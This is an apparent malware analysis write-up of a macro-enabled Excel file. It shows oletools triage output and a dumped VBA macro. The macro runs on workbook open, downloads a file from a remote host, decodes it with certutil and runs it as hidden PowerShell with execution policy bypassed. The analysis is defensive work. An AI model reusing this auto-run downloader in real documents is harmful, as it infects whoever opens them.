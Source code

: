 # sheetsForFinancial.xlsm

# Identification:

**FileName:** sheetsForFinancial.xlsm

**SHA256:** 16e6489b81a41f0bfc2bc9bb0165b624c51ed4fecf6438c73a5ee6501caf34dc

**FileSize:** 20480 (bytes)

<br>

# Analysis:

The analysis was started by checking if the excel contain macro. For this Oletools were used. Initial traige on the sample was carried out using oleid to check for any macro or remote template injections. 

 `oleid sheetsForFinancial.xlsm`

    oleid 0.60.dev1 - http://decalage.info/oletools
    THIS IS WORK IN PROGRESS - Check updates regularly!
    Please report any issue at https://github.com/decalage2/oletools/issues
    
    Filename: sheetsForFinancial.xlsm
    --------------------+--------------------+----------+--------------------------
    Indicator           |Value               |Risk      |Description
    --------------------+--------------------+----------+--------------------------
    File format         |MS Excel 2007+      |info      |
                        |Macro-Enabled       |          |
                        |Workbook (.xlsm)    |          |
    --------------------+--------------------+----------+--------------------------
    Container format    |OpenXML             |info      |Container type
    --------------------+--------------------+----------+--------------------------
    Encrypted           |False               |none      |The file is not encrypted
    --------------------+--------------------+----------+--------------------------
    VBA Macros          |Yes, suspicious     |HIGH      |This file contains VBA
                        |                    |          |macros. Suspicious
                        |                    |          |keywords were found. Use
                        |                    |          |olevba and mraptor for
                        |                    |          |more info.
    --------------------+--------------------+----------+--------------------------
    XLM Macros          |No                  |none      |This file does not contain
                        |                    |          |Excel 4/XLM macros.
    --------------------+--------------------+----------+--------------------------
    External            |0                   |none      |External relationships
    Relationships       |                    |          |such as remote templates,
                        |                    |          |remote OLE objects, etc
    --------------------+--------------------+----------+--------------------------

Here, from the result of oleid tool, it was found that this excel file contain VBA macro.

Using the oledump tool, it was then checked which stream contains the macro as shown below.

`oledump.py sheetsForFinancial.xlsm`

    A: xl/vbaProject.bin      
     A1:       468 'PROJECT'  
     A2:        86 'PROJECTwm'
     A3: M    7829 'VBA/Module
     A4: m    1196 'VBA/Sheet1
     A5: m    1204 'VBA/ThisWo
     A6:      3130 'VBA/_VBA_P
     A7:      4020 'VBA/__SRP_
     A8:       272 'VBA/__SRP_
     A9:      3892 'VBA/__SRP_
    A10:       220 'VBA/__SRP_
    A11:       680 'VBA/__SRP_
    A12:       106 'VBA/__SRP_
    A13:       464 'VBA/__SRP_
    A14:       106 'VBA/__SRP_
    A15:       562 'VBA/dir'  

Here, the streams 3, 4 and 5 seems to contain macro.

Again using the oledump tool, the macro from stream 3 was dumped using the command.

`oledump.py -s 3 -v sheetsForFinancial.xlsm`

    Attribute VB_Name = "Module1"
    Function genStr(Length As Integer)
    Dim chars As Variant
    Dim x As Long
    Dim str As String
    
      If Length < 1 Then
        Exit Function
      End If
    
    chars = Array("a", "b", "c", "d", "e", "f", "g", "h", "i", "j", _
      "k", "l", "m", "n", "o", "p", "q", "r", "s", "t", "u", "v", "w", "x", _
      "y", "z", "0", "1", "2", "3", "4", "5", "6", "7", "8", "9", "!", "@", _
      "#", "$", "%", "^", "&", "*", "A", "B", "C", "D", "E", "F", "G", "H", _
      "I", "J", "K", "L", "M", "N", "O", "P", "Q", "R", "S", "T", "U", "V", _
      "W", "X", "Y", "Z")
      For x = 1 To Length
        Randomize
        str = str & chars(Int((UBound(chars) - LBound(chars) + 1) * Rnd + LBound(chars)))
      Next x
    
      randStr = str
    
    End Function
            Sub Workbook_Open()
                Dim str1: genStr (17)
                Dim xHttp: Set xHttp = CreateObject("Microsoft.XMLHTTP")
                str2 = "wgd2l0aCB5b3VyIG93biBjbGV2ZXIgdGhvdWdodHMgYW5kIGlkZWFzLiBEbyB5b3UgbmVlZCBhIG1hbmFnZXI/CgpNdXN0IGdvIGZhc3Rlci4uLiBnbywgZ28sIGdvLCBnbywgZ28hIFRoaXMgdGhpbmcgY29tZXMgZnVsbHkgbG9hZGVkLiBBTS9GTSByYWRpbywgcmVjbGluaW5nIGJ1Y2tldC"
                Dim bStrm: Set bStrm = CreateObject("Adodb.Stream")
                str3 = "WQgd2l0aCB0aGUgZmF0IGxhZHkhIERyaXZlIHVzIG91dCBvZiBoZXJlISBGb3JnZXQgdGhlIGZhdCBsYWR5ISBZb3UncmUgb2JzZXNzZWQg"
                xHttp.Open "GET", "http://srv3.wonderballfinancial.local/abc123.crt", False
                xHttp.Send
                Dim str9: genStr (10)
                With bStrm
                .Type = 1 '//binary
                .Open
                .write xHttp.responseBody
                .savetofile "encd.crt", 2 '//overwrite
                End With
                str5 = "WQgd2l0aCB0aGUgZmF0IGxhZHkhIERyaXZlIHVzIG91dCBvZiBoZXJlISBGb3JnZXQgdGhlIGZhdCBsYWR5ISBZb3UncmUgb2JzZXNzZWQg"
                str6 = "Z2V0IG15IGVzcHJlc3NvIG1hY2hpbmU/IEp1c3QgbXkgbHVjaywgbm8gaWNlLiBZb3UncmUgYSB2ZXJ5IHRhbGVudGVkIHlvdW5nIG1hbiwgd2l0aCB5b3VyIG93biBjbGV2ZXIgdGhvdWdodHMgYW5kIGlkZWZ2V0IG15IGVzcHJlc3NvIG1hY2hpbmU/IEp1c3QgbXkgbHVjaywgbm8gaWNlLiBZb3UncmUgYSB2ZXJ5IHRhbGVudGVkIHlvdW5nIG1hbiwgd2l0aCB5b3VyIG93biBjbGV2ZXIgdGhvdWdodHMgYW5kIGlkZW"
                Shell ("cmd /c certutil -decode encd.crt run.ps1 & c:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe -ep bypass -W Hidden .\run.ps1")
            End Sub



<br>

# Detection with Yara Rule:


